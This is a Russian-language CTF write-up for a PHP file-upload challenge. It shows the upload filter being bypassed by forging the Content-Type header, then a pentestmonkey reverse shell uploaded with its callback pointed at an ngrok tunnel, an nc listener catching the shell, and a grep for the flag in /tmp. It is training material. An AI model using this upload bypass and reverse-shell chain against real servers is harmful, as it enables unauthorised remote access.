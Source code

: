 # просто php
Посмотрим что вы сможете сделать с этим...

## Hint
Какие форматы файлов принимает сервер?

# WriteUp

## Инструменты
[BurpSute](https://portswigger.net/burp)
<br>[ngrok](https://ngrok.com/)
<br>[netcat](https://netcat.sourceforge.net/)

## Решение
Анализ любого **Web`a** начинается с просмотра кода страницы.

В данном случае просмотр кода страницы нам ничего не дает.

Посмотрим на начальную страницу сервиса

![1](images/1.png)

Мы понимаем, что сервис предлагает нам загрузить какой-нибудь файл.

Но прежде чем загружать файл откроем [BurpSute](https://portswigger.net/burp), чтобы
мы могли отслеживать передаваемую информацию.
После чего пробуем загрузить любой рандомный файл.

![2](images/2.png)

Как видим, сервер нам ответил ошибкой загрузки файла.
<br>**upload faild!**

Проанализируем запрос отправляемый нами на сервер и увидим, что сервер принимает
только определенного формата файлы.
Первое и логичное, что приходит в голову, это попробовать обдурить сервер, и в **Хедере**
**Content-Type:** поменять значение формата отправляемого файла, на один из тех, что 
сервер принимает.

![3](images/3.png)

Меняем значение **Content-Type** на **image/jpeg** и отправляем наш запрос.
<br>Как видим, наш запрос прошел, а сервер ответил, что файл загружен.
<br>**Load in: upload/123.txt**. ОТметим, что после загрузки файла, сервер нам указывает
куда конкретно был загружен файл, а именно в папку **upload**.

![4](images/4.png)

Раз мы научились загружать файлы, нам в голову должно прийти, что мы можем загрузить **Shell code
** на сервер.
Чтобы не мучиться и не писать **reverse shell** самостоятельно, загуглим любой **php reverse shell**.
К примеру первый попавшийся в интернете [**PHP REVERSE SHELL**](https://github.com/pentestmonkey/php-reverse-shell).
Скачиваем его себе.(скоро мы к нему вернемся)

**P.S.** В данный момент сервис у меня запущен локально, но я покажу то, как нужно делать, если 
сервис висит во внешней сети, а белого ip-адреса у вас нет.

Так как белого ip-адреса у нас нет, нам на помощь придет утилита [**ngrok**](https://ngrok.com/)
(при первом запуске утилиты, возможно потребуется регистрация).

Команда запуска утилиты очень простая:

```sh
┌──(kali㉿kali)-[~/kakaya-to_directoriya]
└─$ ngrok tcp 1337  
```

После чего у нас открывается окно [**ngrok**](https://ngrok.com/) (впадать в объяснения принципа работы утилиты не буду, сами изучите).


```bash
ngrok                                                                                                                                       (Ctrl+C to quit)
                                                                                                                                                            
Announcing ngrok-rs: The ngrok agent as a Rust crate: https://ngrok.com/rust                                                                                
                                                                                                                                                            
Session Status                online                                                                                                                        
Account                       MrNansy (Plan: Free)                                                                                                          
Update                        update available (version 3.2.2, Ctrl-U to update)                                                                            
Version                       3.2.1                                                                                                                         
Region                        Europe (eu)                                                                                                                   
Latency                       -                                                                                                                             
Web Interface                 http://127.0.0.1:4040                                                                                                         
Forwarding                    tcp://6.tcp.eu.ngrok.io:11768 -> localhost:1337                                                                               
                                                                                                                                                            
Connections                   ttl     opn     rt1     rt5     p50     p90                                                                                   
                              0       0       0.00    0.00    0.00    0.00       
```

В дополнительном окне терминала запускаем прослушивание порта 1337.
```bash
┌──(kali㉿kali)-[~/kakaya-to_directoriya]
└─$ nc -lnvp 1337 
listening on [any] 1337 ...
```

Теперь можно вернуться к нашему скачанному **PHP REVERSE SHELL**

Открываем его на редактирование и меняем нужные нам параметры, а конкретно:
<br>**ip**
<br>**port**

![6](images/6.png)

**К примеру:**

<table>
<tr>
<td><b> Было </td> <td><b> Стало </td>
</tr>
<tr>
<td> 

```php
$ip = 127.0.0.1;  // CHANGE THIS
$port = 1337;       // CHANGE THIS
```
</td>
<td>

```php
$ip = '6.tcp.eu.ngrok.io';
$port = 19987;
```

</td>
</tr>
</table>

**P.S.**: Значения берем из окна [**ngrok**](https://ngrok.com/).

Теперь можно вернуться к загрузке файла на сервер, с внесенными изменениями в **Хедер** 
**Content-Type:**

![5](images/5.png)


Видим успешную загрузку файла на сервер, осталось только обратиться к этому файлу.

Так как у нас указан путь куда загружается файл, мы туда и перейдем, прям из браузера.

Дописываем в **URL** адрес наш путь **/upload/reverse.php**

**Пример**: http://178.25.13.24:43441/upload/reverse.php

После чего видим, что страница долго грузится...

Тут можно вернуться в окно терминала где у нас включена прослушка порта, и увидим установленное 
**reverse shell** подключение

```bash
┌──(kali㉿kali)-[~/kakaya-to_directoriya]
└─$ nc -lnvp 1337                                     
listening on [any] 1337 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 47504
Linux a17f12c3b756 6.0.0-kali3-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.0.7-1kali1 (2022-11-07) x86_64 Linux
sh: w: not found
uid=65534(nobody) gid=65534(nobody) groups=65534(nobody)
~ $ /bin/sh: can't access tty; job control turned off
```

Сразу проверяем под каким пользователем мы находимся в системе и доступы к каким файлам у на имеются

```bash
┌──(kali㉿kali)-[~/kakaya-to_directoriya]
└─$ nc -lnvp 1337                                     
listening on [any] 1337 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 47504
Linux a17f12c3b756 6.0.0-kali3-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.0.7-1kali1 (2022-11-07) x86_64 Linux
sh: w: not found
uid=65534(nobody) gid=65534(nobody) groups=65534(nobody)
~ $ /bin/sh: can't access tty; job control turned off
~ $ whoami
nobody
~ $ ls -la
total 68
drwxr-xr-x    1 root     root          4096 Apr  6 23:05 .
drwxr-xr-x    1 root     root          4096 Apr  6 23:05 ..
-rwxr-xr-x    1 root     root             0 Apr  6 23:05 .dockerenv
drwxr-xr-x    2 root     root          4096 Feb 10 16:45 bin
drwxr-xr-x    5 root     root           340 Apr  6 23:05 dev
drwxr-xr-x    1 root     root          4096 Apr  6 23:05 etc
drwxr-xr-x    2 root     root          4096 Feb 10 16:45 home
drwxr-xr-x    1 root     root          4096 Mar 25 02:18 lib
drwxr-xr-x    5 root     root          4096 Feb 10 16:45 media
drwxr-xr-x    2 root     root          4096 Feb 10 16:45 mnt
drwxr-xr-x    2 root     root          4096 Feb 10 16:45 opt
dr-xr-xr-x  360 root     root             0 Apr  6 23:05 proc
drwx------    2 root     root          4096 Feb 10 16:45 root
drwxr-xr-x    1 nobody   nobody        4096 Apr  6 23:05 run
drwxr-xr-x    2 root     root          4096 Feb 10 16:45 sbin
drwxr-xr-x    2 root     root          4096 Feb 10 16:45 srv
dr-xr-xr-x   13 root     root             0 Apr  6 23:05 sys
drwxrwxrwt    1 root     root          4096 Apr  6 23:06 tmp
drwxr-xr-x    1 root     root          4096 Mar 25 02:18 usr
drwxr-xr-x    1 root     root          4096 Mar 25 02:18 var
```

Видим что максимальное количество прав на папку **/tmp**

Можно сразу в ней поискать наш флаг с помощью утилиты **grep**.

```bash
~ $ grep -r "RDGCTF" /tmp 
/tmp/fl4g:RDGCTF{php_1nj3cTi0n_v3ry_345y}
```

# Flag
RDGCTF{php_1nj3cTi0n_v3ry_345y}

**P.S.** флаг может отличаться от того что был на CTF, так как я забыл какой флаг туда клал)